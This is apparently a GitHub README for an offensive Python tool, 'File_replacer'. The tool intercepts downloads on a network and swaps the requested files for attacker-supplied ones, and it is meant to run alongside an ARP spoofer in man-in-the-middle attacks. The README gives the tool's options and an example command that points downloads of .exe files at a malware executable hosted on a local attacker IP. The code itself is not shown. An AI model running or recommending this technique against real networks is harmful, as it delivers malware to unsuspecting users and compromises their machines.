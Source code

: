 # File_replacer
It replaces files while downloading, use it with arp-spoofer to perform mitm attacks.

Usage: file_interceptor.py [options]

Options:
  -h, --help            show this help message and exit
  -m MALACIOUSFILE, --malacious-file=MALACIOUSFILE
                        Enter Malacious file url (eg: -mf
                        http://192.168.1.11/malware.exe
  -f FILETYPE, --file-type=FILETYPE
                        Add file type which you want to replece on download
                        (Eg: -f exe

![Screenshot 2023-01-03 115007](https://user-images.githubusercontent.com/109381227/210309124-287f9e27-1b69-4b75-8cb4-eebc0537fbd3.jpg)

Example: python3 file_interceptor.py -m http://192.168.1.11/bad.exe -f exe

![Screenshot 2023-01-03 115248](https://user-images.githubusercontent.com/109381227/210309176-ef173376-6fa6-4a71-81c1-f6a6b997f160.jpg)

